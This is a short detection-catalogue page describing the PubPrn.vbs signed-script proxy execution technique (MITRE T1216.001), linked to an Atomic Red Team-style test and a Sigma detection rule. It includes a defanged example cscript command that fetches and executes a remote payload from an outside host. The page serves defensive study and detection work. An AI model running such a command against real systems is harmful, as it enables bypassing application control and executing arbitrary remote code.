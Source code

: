 
[back](../index.md)

Find sigma rule :heavy_check_mark: 

# Attack: PubPrn 

Adversaries may use the trusted PubPrn script to proxy execution of malicious files. This behavior may bypass signature validation restrictions and application control solutions that do not account for use of these scripts.

<code>PubPrn.vbs</code> is a Visual Basic script that publishes a printer to Active Directory Domain Services. The script is signed by Microsoft and can be used to proxy execution from a remote site.(Citation: Enigma0x3 PubPrn Bypass) An example command is <code>cscript C[:]\Windows\System32\Printing_Admin_Scripts\en-US\pubprn[.]vbs 127.0.0.1 script:http[:]//192.168.1.100/hi.png</code>.

# MITRE
## Tactic
  - defense-evasion


## technique
  - T1216.001


# Test : PubPrn.vbs Signed Script Bypass
## OS
  - windows


## Description:
Executes the signed PubPrn.vbs script with options to download and execute an arbitrary payload.


## Executor
command_prompt

# Sigma Rule
 - win_pc_susp_cscript_vbs.yml (id: 23250293-eed5-4c39-b57a-841c8933a57d)



[back](../index.md)
